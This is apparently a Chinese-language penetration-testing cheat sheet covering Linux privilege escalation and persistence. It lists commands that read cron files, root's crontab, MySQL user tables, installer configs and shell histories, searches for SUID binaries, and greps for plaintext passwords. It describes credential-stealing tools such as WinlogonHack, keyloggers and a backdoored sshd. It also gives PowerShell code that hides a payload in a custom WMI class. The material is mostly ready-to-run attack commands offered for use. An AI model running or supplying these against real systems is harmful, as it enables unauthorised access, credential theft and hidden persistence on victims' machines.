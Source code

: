 ```
cat /etc/cron.allow
cat /etc/cron.deny
cat /etc/crontab
cat /etc/anacrontab
cat /var/spool/cron/crontabs/root
```
#### SUID 
```
find / -user root -perm -4000 -print 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
find / -user root -perm -4000 -exec ls -ldb {} \;
```
#### 系统服务的错误权限配置漏洞 
```
cat /var/apache2/config.inc
cat /var/lib/mysql/mysql/user.MYD
cat /root/anaconda-ks.cfg
```

#### 不安全的文件/文件夹权限配置 
```
cat ~/.bash_history
cat ~/.nano_history
cat ~/.atftp_history
cat ~/.mysql_history
cat ~/.php_history
```
#### 找存储的明文用户名，密码 
```
grep -i user [filename]
grep -i pass [filename]
grep -C 5 "password" [filename]
find . -name "*.php" -print0 | xargs -0 grep -i -n "var $password" # Joomla
```

## 权限维持 

### 系统后门 
#### Windows 
##### 1、密码记录工具 
WinlogonHack 
WinlogonHack 是一款用来劫取远程3389登录密码的工具，在 WinlogonHack 之前有 一个 Gina 木马主要用来截取 Windows 2000下的密码，WinlogonHack 主要用于截 取 Windows XP 以及 Windows 2003 Server。
键盘记录器 
安装键盘记录的目地不光是记录本机密码，是记录管理员一切的密码，比如说信箱，WEB 网页密码等等，这样也可以得到管理员的很多信息。
NTPass 
获取管理员口令,一般用 gina 方式来,但有些机器上安装了 pcanywhere 等软件，会导致远程登录的时候出现故障，本软件可实现无障碍截取口令。
Linux 下 openssh 后门 
重新编译运行的sshd服务，用于记录用户的登陆密码。
##### 2、常用的存储Payload位置 
**WMI** :
存储：
```
$StaticClass = New-Object Management.ManagementClass('root\cimv2', $null,$null)
$StaticClass.Name = 'Win32_Command'
$StaticClass.Put()
$StaticClass.Properties.Add('Command' , $Payload)
$StaticClass.Put() 
```
读取:
```
$Payload=([WmiClass] 'Win32_Command').Properties['Command'].Value
```